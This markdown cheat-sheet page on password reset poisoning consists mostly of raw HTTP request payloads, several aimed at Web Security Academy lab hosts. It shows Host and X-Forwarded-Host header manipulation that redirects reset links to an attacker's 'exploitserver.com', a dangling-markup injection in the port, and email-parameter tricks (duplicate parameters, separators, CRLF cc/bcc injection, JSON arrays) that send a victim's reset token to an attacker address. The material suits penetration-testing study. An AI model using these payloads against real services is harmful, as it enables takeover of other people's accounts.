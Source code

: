 ```yaml
---
title: "Password Reset Poisoning"
draft: false
images: []
menu:
  docs:
    parent: "Web"
weight: 100
toc: true
---
```


## Host Header
Modify the host header /forgot-password request to send the request to your own server exploit
```
POST /forgot-password HTTP/1.1
Host: ac2e1f241ee191188094086d00cc0041.web-security-academy.net

#########################################################################

POST /forgot-password HTTP/1.1
Host: exploitserver.com

#########################################################################

POST /forgot-password HTTP/1.1
Host: ac2e1f241ee191188094086d00cc0041.web-security-academy.net
Host: exploitserver.com
```
## X-Forwarded-Host
Notice that the X-Forwarded-Host header is supported and you can use it to point the dynamically generated reset link to an arbitrary domain
```
POST /forgot-password HTTP/1.1
Host: ac1c1fcd1e67ea3480850d2c00150093.web-security-academy.net

##########################################################################

POST /forgot-password HTTP/1.1
Host: ac1c1fcd1e67ea3480850d2c00150093.web-security-academy.net
X-Forwarded-Host: exploitserver.com
```
### Add Non Numeric Port
```
POST /forgot-password HTTP/1.1
Host: acb31fb21f24d280806c1817008f0032.web-security-academy.net

###########################################################################

POST /forgot-password HTTP/1.1
Host: acb31fb21f24d280806c1817008f0032.web-security-academy.net:'<a href="https://exploitserver.net/?
```
## Manipulate Email Parameter
### Add attacker email as second parameter using &
```
POST /resetPassword
[...]
email=victim@email.com&email=attacker@email.com
```
### Add attacker email as second parameter using %20
```
POST /resetPassword
[...]
email=victim@email.com%20email=attacker@email.com
```
### Add attacker email as second parameter using |
```
POST /resetPassword
[...]
email=victim@email.com|email=attacker@email.com
```
### Add attacker email as second parameter using cc
```
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```
### Add attacker email as second parameter using bcc
```
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
```
### Add attacker email as second parameter using ,
```
POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"
```
### Add attacker email as second parameter in json array
```
POST /resetPassword
[...]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```